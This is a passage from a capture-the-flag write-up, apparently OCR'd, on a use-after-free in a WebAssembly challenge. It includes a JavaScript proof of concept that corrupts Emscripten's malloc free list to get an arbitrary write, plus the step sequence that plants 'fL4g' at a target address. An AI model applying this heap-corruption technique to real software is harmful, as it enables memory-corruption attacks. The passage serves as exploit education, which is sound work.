 ```wasm  
(global $g0 (mut i32) (i32.const 5248752))  
```

You can also notice that 0x67344c66 is unicode, and after converting, you will
see that it is equivalent to `fL4g`. How appropriate lol.

Finally putting it all together, we need to write the string value `fL4g` at
address `0x5016e8`. Now that the goal is clear, we need to start exploiting.

## 4. Exploitation in Wasm based malloc

We need to test around with emscripten Wasm's malloc to understand the
exploitation potential of a Use After Free bug within the program. To do this,
we can set up a testing environment on the web.

```c  
#include <stdlib.h>

int main() {return 0;}  
```

If you compile this program with `emcc malloc.c -s
EXPORTED_FUNCTIONS=_main,_malloc,_free -o index.html`. Then, after hosting
locally, in your webpage, you can access _free() and _malloc().

I do not have much experience with heap exploitation outside of Wasm (lol), so
I'll just cut to the chase here.

```js  
const destination = 1000;

const uaf_ptr = _malloc(0x20 /* the size doesn't matter much as long as its
all the same and small */)  
_malloc(0x20);  
_free(uaf_ptr);  
HEAP32[uaf_ptr >> 2] = destination - 0x8  
_malloc(0x20);  
console.log(_malloc(0x20)); // Prints out destination  
```

So we use this series of techniques to modify the variable at `0x5016e8`, and
set it to `fL4g`.

## 5. Putting it all together

```  
alloc(1)  
alloc(2)  
free(1)  
write(1, u32(0x5016e8 - 8))  
alloc(3)  
alloc(4)  
write(4, "fL4g")  
print(4) # just confirmation  
```
